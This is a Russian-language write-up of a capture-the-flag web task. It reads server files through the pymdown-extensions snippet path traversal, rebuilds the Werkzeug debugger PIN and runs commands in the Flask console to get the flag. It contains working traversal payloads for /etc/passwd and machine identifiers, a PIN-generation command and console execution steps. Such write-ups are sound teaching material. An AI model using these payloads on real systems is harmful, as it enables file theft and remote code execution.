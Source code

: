 
Райтап на Web таск от CyberEd - "MarkDownNotes"
Описание:
"MarkDownNotes - очередной сайт для хранения заметок. Мы заботимся о безопасности данных наших клиентов! Однако на поддержание сервиса уходит много средств, поэтому бесплатно предоставляются только 10 заметок. Используйте их с умом! Акция: найдите багу по программе бабаунти и докажите её, исполнив файл read_flag в корне приложения, и получите бесплатное пользование сервисом навсегда!"

После регистрации на [сайте](http://mdn.cyber-ed.space) нас встречает сервис заметок:
![main_site](https://github.com/k3vg3n/MDN/assets/87700221/7a506887-a406-41d5-a6d2-1bda25fa43d7)
Добавлять можно до 10 заметок на аккаунт.


### Разведка
Запустим nikto:

![nikto_out](https://github.com/k3vg3n/MDN/assets/87700221/d70df5d4-7285-463c-b0a1-5e2c44769ed0)


Переходим на http://mdn.cyber-ed.space/console:
![flask_console](https://github.com/k3vg3n/MDN/assets/87700221/6549e1d5-abeb-4844-86d3-3ec23e4dada3)

На нем находится Werkzeug Debugger, значит сайт написан на Flask.
Чтобы зайти в консоль и выполнить файл read_flag нам нужно знать pin-код, а у нас его нет.
Из [статьи](https://habr.com/ru/articles/738238/pin-код) узнаем, что pin-код flask генерируетcя на основе:
1.  Appname (`getattr(app, "__name__", type(app).__name__)`) по умолчанию имеет значение `Flask`
2. `getattr(mod, "__file__", None),` или путь до Flask
3. Modname, по умолчанию `flask.app`
4. Username - имя пользователя в системе linux
5. MAC-адрес устройства
6. Machine_id - ID устройства
Нам сразу известны Appname и Modname.
Надо найти остальные значения, прочитав файлы в системе.

### Получаем AFR (arbitrary file read)
Тут обращаемся к особенности таска - *markdown*.
Ищем расширения на python:
![markdown_search](https://github.com/k3vg3n/MDN/assets/87700221/21fad3e3-d858-4a2d-87f8-feded7cb1525)

Находим два основных расширения: Python-Markdown и pymdown-extensions.
На Python-Markdown я не нашел AFR, в отличии от pymdown-extensions ([CVE-2023-32309](https://www.cve.org/CVERecord?id=CVE-2023-32309), [github](https://github.com/advisories/GHSA-jh85-wwv9-24hv)):
![pymdown_AFR](https://github.com/k3vg3n/MDN/assets/87700221/ec8d3dfd-5423-496a-bd68-461ae102a6eb)

Создадим шаблон, который мы будем менять и отправлять: `--8<-- "../../../../etc/passwd"`

Попробуем прочитать /etc/passwd (`--8<-- "../../../../etc/passwd"`):

![passwd](https://github.com/k3vg3n/MDN/assets/87700221/080749f6-43dc-4ac7-9753-82635796aa36)

Успешно.
Теперь мы можем прочитать нужные нам файлы для генерации pin-кода.

### Получение данных и генерация pin-кода
Имя пользователя мы уже получили из /etc/passwd - "app"
Чтобы получить MAC-адрес, нам нужно знать по какому интерфейсу устройство выходит в сеть. Для этого читаем файл `/proc/net/dev` (`--8<-- "../../../../proc/net/dev"`):
```
Inter-| Receive | Transmit face |bytes packets errs drop fifo frame compressed multicast|bytes packets errs drop fifo colls carrier compressed eth0: 86949846 338155 0 0 0 0 0 0 100381675 357756 0 0 0 0 0 0 lo: 1341217 13102 0 0 0 0 0 0 1341217 13102 0 0 0 0 0 0
```
Видно, что соединение происходит по eth0.
Смотрим MAC-адрес (`--8<-- "../../../../sys/class/net/eth0/address"`):
`02:42:ac:18:00:04`

Чтобы найти machine-id читаем файл `/etc/machine-id`:
`04a9330868336aa19c457b402d5a4f7c`
и  `/proc/self/cgroup`:
```
12:blkio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 11:rdma:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 10:pids:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 9:perf_event:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 8:freezer:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 7:net_cls,net_prio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 6:devices:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 5:hugetlb:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 4:cpu,cpuacct:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 3:cpuset:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 2:memory:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 1:name=systemd:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
```
Из `/proc/self/cgroup` нам нужна последняя строчка:
`0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9`

Чтобы найти путь к app.py мы должны вызвать ошибку в Flask. Для этого можно отправить POST запрос на создание заметки без указания "title" и "content": 
```
POST 
http://mdn.cyber-ed.space/profile 
Cookie: session=your_cookie
```
![burp1](https://github.com/k3vg3n/MDN/assets/87700221/32369825-70ee-4fc7-8109-dd40a7089a59)


Путь к приложению: `/usr/local/lib/python3.8/site-packages/flask/app.py`

Итого имеем:
```
machine_id: 04a9330868336aa19c457b402d5a4f7c
username: app
name: Flask
Modname: flask.app
MAC: 02:42:ac:18:00:04
path: /usr/local/lib/python3.8/site-packages/flask/app.py
```

Для генерации pin-кода и cookie используем [этот скрипт](https://github.com/SidneyJob/Werkzeuger).

Устанавливаем:
```
git clone https://github.com/SidneyJob/Werkzeuger
cd Werkzeuger
```

Запускаем скрипт, подставляя наши значения:
```
python gen.py --username app --path /usr/local/lib/python3.8/site-packages/flask/app.py --mac 02:42:ac:18:00:04 --machine_id 04a9330868336aa19c457b402d5a4f7c  --cgroup 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9

```
Получаем куки:
![run_script](https://github.com/k3vg3n/MDN/assets/87700221/14e40c6d-a0ec-4853-8a4a-92fcd6295981)

![run_script_out](https://github.com/k3vg3n/MDN/assets/87700221/fd20a744-4bbc-4eb1-8154-6cb34596c43b)


Нам нужны строчки:
```
[+] Success!
[*] PIN: 233-535-197
[*] Cookie: __wzd49d0c27c7911c3fc007f=1710008146|6e27d4a6cf2a
[*] Modname: flask.app
[*] Appname: Flask
```


### Получаем доступ к консоли
Если у Вас превышен лимит на ввод pin-кода, то открываем [консоль](http://mdn.cyber-ed.space/console) и подставляем куки в браузер (иначе можете просто ввести pin):
![new_cookie](https://github.com/k3vg3n/MDN/assets/87700221/cf07246a-b090-4da9-b2b3-ca667192cfbf)

Перезагружаем страницу.
Мы зашли в консоль.
![console_enter](https://github.com/k3vg3n/MDN/assets/87700221/7dd318ef-c31c-430b-8d00-d6c3ecf2617a)



### Получаем флаг
Посмотрим файлы в директории:
```
import subprocess
subprocess.run(["ls", "-lah"], capture_output=True)
```
Видим тот самый файл с флагом.
```
CompletedProcess(args=['ls', '-lah'], returncode=0, stdout=b'total 72K\ndrwxr-xr-x 1 app app 4.0K Mar 9 15:14 
ndrwxr-xr-x 1 root root 4.0K Mar 5 14:38 
-rw-r--r-- 1 app app 519 Sep 23 20:02 config.py
-rwxr-xr-x 1 app app 151 Sep 22 15:07 entrypoint.sh
-rw-r--r-- 1 app app 162 Sep 23 18:35 main.py
-rw-r--r-- 1 app app 599 Sep 22 15:07 manage.py
drwxr-xr-x 1 app app 4.0K Sep 22 14:19 models
drwxr-xr-x 1 app app 4.0K Sep 23 19:26 modules
---s--x--x 1 root root 17K Sep 23 16:40 read_flag
-rw-r--r-- 1 app app 118 Sep 23 18:38 requirements.txt
drwxr-xr-x 4 root root 4.0K Sep 22 14:52 static
drwxr-xr-x 1 app app 4.0K Sep 22 14:23 templates
drwxr-xr-x 1 app app 4.0K Sep 23 18:33 utils', stderr=b'')
```
Смотрим в какой директории мы находимся:
```
subprocess.run(["pwd"], capture_output=True)
```
Мы находимся в папке "/app":
`CompletedProcess(args=['pwd'], returncode=0, stdout=b'/app\n', stderr=b'')`

Чтобы выполнить файл "read_flag" вводим команду:
```
subprocess.run(["/app/read_flag"], capture_output=True)
```
Получаем флаг:
```
CompletedProcess(args=['/app/read_flag'], returncode=0, stdout=b'flag{fl45k_d3bu6_m0d3_15_un54f3}', stderr=b'')
```
![console_flag](https://github.com/k3vg3n/MDN/assets/87700221/5ea91a4d-be37-4294-b1e7-258164b0c2b8)

##### Флаг: flag{fl45k_d3bu6_m0d3_15_un54f3}


### Спасибо за прочтение!

Полезные ссылки:
https://habr.com/ru/articles/738238/

https://security.snyk.io/vuln/SNYK-PYTHON-PYMDOWNEXTENSIONS-5537103
